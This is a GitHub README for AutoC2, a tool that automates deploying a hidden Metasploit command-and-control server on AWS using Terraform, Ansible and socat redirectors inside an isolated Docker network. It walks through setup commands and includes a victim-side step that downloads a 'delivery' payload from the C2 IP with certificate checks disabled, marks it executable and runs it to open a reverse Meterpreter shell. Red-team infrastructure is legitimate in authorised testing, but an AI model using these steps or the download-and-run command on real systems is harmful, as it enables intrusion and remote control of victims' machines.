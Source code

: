 
# AutoC2

A quick isolated C2 Deployer.

![AutoC2](/demo_screenshots/AutoC2_1.PNG)


## Overview

AutoC2 makes use of terraform + ansible to deploy and hide a command and control server with isolated docker network within less than 5 mins in a single click!

Brief outline of what the tool does :

1. deploys an ec2 micro instance on desired region given by user.

2. setup the C2 server which is not exposed to the internet with the help of isolated docker network which consists of multiple socat redirectors and a metasploit container instance.

3. uses meterpreter_reverse_http as payload and similar payloads such as 
meterpreter_reverse_https and meterpreter_reverse_tcp works as well. (requires modification to docker_delivery.rc file)

This automated script is built over technique demonstrated by the author of following blog. All credits for technique/ detailed explanation of how this is built can be found here:

https://khast3x.club/posts/2020-02-09-C2-Protection-Socat-Docker/




## Prerequisites

* terraform must be installed

* ansible(python 3)must be installed.
```bash
pip3 install ansible
```

* your IAM account credentials (Aws access key and secret key) with admin privileges.

* AWS Region to be deployed and image(tested on ubuntu and works on debain) AMI code.

* set environment variable to ignore ssh key trust warnings
```bash
export ANSIBLE_HOST_KEY_CHECKING=False
```

## Getting Started

* Only files we touch for changing configuration is **vars.tf** and **terraform.tfvars**.  

* first generate SSH keys for setting up public key authentication on any launched instances.  
```bash
ssh-keygen -f keyy
chmod 600 keyy
```
* inside **vars.tf** , update the path to keys in PRIVATE_KEY , PUBLIC_KEY and other values such as region_aws and AMI value (can be found at cloud-images.ubuntu.com). 

* inside **terraform.tfvars** , update IAM user access key and secret key. 

* run the following command inside this repo project root to initiatize resources. 

```bash
terraform init
```

* Now run the following command to bring up the c2 server . this inturn calls up the ansible playbook to set up the software provisioning and isolated docker network.
```bash
terraform apply
```

* That's it! Infra is set up. Now ssh to the C2 instance using same priv key which was generated before and execute **docker_delivery.rc** metasploit script to start listening for connections.
```bash
SSH -i kkey ubuntu@c2-ip
```

* Verify containers are running.
```bash
sudo docker container ls
```

* Execute metasploit auto handler script inside msf container.
and wait for victim sessions.

```bash
sudo docker container exec -it msf /bin/bash

./msfconsole -r docker_delivery.rc

```
![AutoC2](/demo_screenshots/AutoC2_2.PNG)
![AutoC2](/demo_screenshots/AutoC2_3.PNG)

* By default it generates payload for linux x64 systems.can be modified for different target by modifying **docker_delivery.rc** file

*  By default docker_delivery.rc uses certificate picked up automatically by metasploit.

* On a **victim box**, execute the following to get reverse meterpreter shell on attacker msf container.

```bash
wget --no-check-certificate https://c2IP/delivery
chmod +x delivery
./delivery&
```
![AutoC2](/demo_screenshots/Auto_victim1.PNG)
![AutoC2](/demo_screenshots/AutoC2_7.PNG)
* Finally to destroy the infrastructure completely(use this with caution!) use the following command :
```bash
terraform destroy
```


